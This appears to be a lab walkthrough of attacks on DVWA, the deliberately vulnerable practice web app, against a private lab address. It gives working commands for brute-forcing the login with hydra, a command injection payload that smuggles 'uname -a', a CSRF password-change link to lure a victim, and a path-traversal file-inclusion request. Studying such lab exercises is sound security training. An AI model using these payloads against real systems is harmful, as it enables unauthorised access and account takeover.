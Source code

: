 
### Target

    https://github.com/ethicalhack3r/DVWA

    Security level: low

### Prereq

    # get user token
    $ TOKEN=$(curl -c dvwa.session -s http://192.168.56.101/DVWA/login.php | grep 'user_token' | awk -F 'value=' '{print $2}' | cut -d"'" -f2)

    # get session id
    $ PHPSESSID=$(grep PHPSESSID dvwa.session | awk -F' ' '{print $7}')

    # log in
    $ curl -L -b "PHPSESSID=${PHPSESSID};security=low" -v -d "username=admin&password=password&Login=Login&user_token=${TOKEN}" http://192.168.56.101/DVWA/login.php

### Brute Force

    $ wget https://raw.githubusercontent.com/seifreed/dirb/master/wordlists/others/best110.txt

    $ hydra -t 1 -l admin -P best110.txt -vV 192.168.56.101 http-get-form "/DVWA/vulnerabilities/brute/index.php:username=^USER^&password=^PASS^&Login=Login:F=password incorrect:H=Cookie: PHPSESSID=${PHPSESSID};security=low"

### Command Injection

    $ curl -s -b "PHPSESSID=${PHPSESSID};security=low" -d 'ip=;uname+-a&Submit=Submit' http://192.168.56.101/DVWA/vulnerabilities/exec/index.php | grep Linux    

### CSRF

    # Trick victim (via social engineering means) to visit:
    http://192.168.56.101/DVWA/vulnerabilities/csrf/?password_new=pass1&password_conf=pass1&Change=Change

### File Inclusion

    $ curl -L -b "PHPSESSID=${PHPSESSID};security=low" -v http://192.168.56.101/DVWA/vulnerabilities/fi/?page=../../hackable/flags/fi.php

### Bonus 1

    Session fixation - PHPSESSID is not regenerated after logging in
